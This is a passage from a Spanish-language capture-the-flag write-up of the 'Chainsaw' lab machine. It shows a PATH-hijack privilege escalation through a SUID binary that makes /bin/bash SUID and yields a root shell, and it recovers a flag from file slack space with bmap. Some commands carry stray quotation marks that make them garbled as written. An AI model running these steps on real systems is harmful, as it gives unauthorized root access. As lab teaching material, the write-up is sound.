 Procedemos a darle permisos de ejecucion

```bash
chmod "+x sudo" 
```

Cambiamos el PATH para que pille nuestro `archivo hijaker en bash llamado SUDO` almacenado en la `ruta /tmp`

```
bobby@chainsaw:/tmp$export PATH="/tmp":$PATH
```

Nos movemos al Binario SUID y lo ejecutamos

```bash
bobby@chainsaw:/tmp$ cd /home/bobby/projects/ChainsawClub/
bobby@chainsaw:~/projects/ChainsawClub$" ./ChainsawClub "
```

Comprobando si la Bash es SUID

```bash
bobby@chainsaw:~/projects/ChainsawClub$ ls -l /bin/bash
-rw"s"r-xr-x 1 root root 1121696 Sep 12  2018 /bin/bash
```

Nos Migramos la consola al usuario ROOT con un `bash -p`

```bash
bobby@chainsaw:~/projects/ChainsawClub$ bash -p
bash-4.4# cd /root
bash-4.4# ls
ChainsawClub  root.txt  snap
```

Sacamos la Flag para Root

```bash
bash-4.4# cat root.txt 
Mine deeper to get rewarded with root coin (RTC)...
```

# Steganografia - Bmap - Guardando Datos en el Slack SPace de archivos

Consiste en almacenar los datos en la porcion de espacio vacio, o reservado que se alberga para los archivos

```bash
bash-4.4# "bmap --mode slack" root.txt 
getting from block 2655304
file size was: 52
"slack" size: 4044
block size: 4096
xxxxxxxxxx7deca1b9dd386cd4c395b06e3
```
Normalmente cuando escribimos en archivos, los datos se almacenan en la porcion llamada `block size` y a medida que almacenamos data se van consimiendo los recursos del slack space para ir sumandose al block space. Por eso con esta tecnica se consigue almacenar datos en archivos y que tengan otra posible data escondida y no varie el peso del archivo en la block space.

Box Guapisima Hacked - K0H4ck
